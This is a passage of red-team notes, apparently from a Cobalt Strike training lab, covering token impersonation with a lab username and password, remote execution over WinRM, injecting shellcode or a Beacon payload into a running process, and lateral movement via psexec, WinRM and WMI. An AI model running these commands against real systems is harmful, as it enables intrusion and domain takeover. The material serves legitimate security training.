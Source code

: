 > This also means that `make_token` is not applicable to anything you may want to run on the current machine.  For that, `spawnas` may be a better solution.


```bash
beacon> make_token DEV\jking Qwerty123
beacon> remote-exec winrm web.dev.cyberbotic.io whoami
```

### Process Injection

`shinject` allows you to inject any arbitrary shellcode from a binary file on your attacking machine; and `inject` will inject a full Beacon payload for the specified listener.


* 4464 is the target PID.
* x64 is the architecture of the process.
* tcp-local is the listener name.


```bash
beacon> inject 4464 x64 tcp-local
```

## Lateral Movement

`jump [method] [target] [listener]`

```bash
beacon> jump

Beacon Remote Exploits
======================

    Exploit                   Arch  Description
    -------                   ----  -----------
    psexec                    x86   Use a service to run a Service EXE artifact
    psexec64                  x64   Use a service to run a Service EXE artifact
    psexec_psh                x86   Use a service to run a PowerShell one-liner
    winrm                     x86   Run a PowerShell script via WinRM
    winrm64                   x64   Run a PowerShell script via WinRM
```

`remote-exec [method] [target] [command]`

```bash
beacon> remote-exec

Beacon Remote Execute Methods
=============================

    Methods                         Description
    -------                         -----------
    psexec                          Remote execute via Service Control Manager
    winrm                           Remote execute via WinRM (PowerShell)
    wmi                             Remote execute via WMI
```
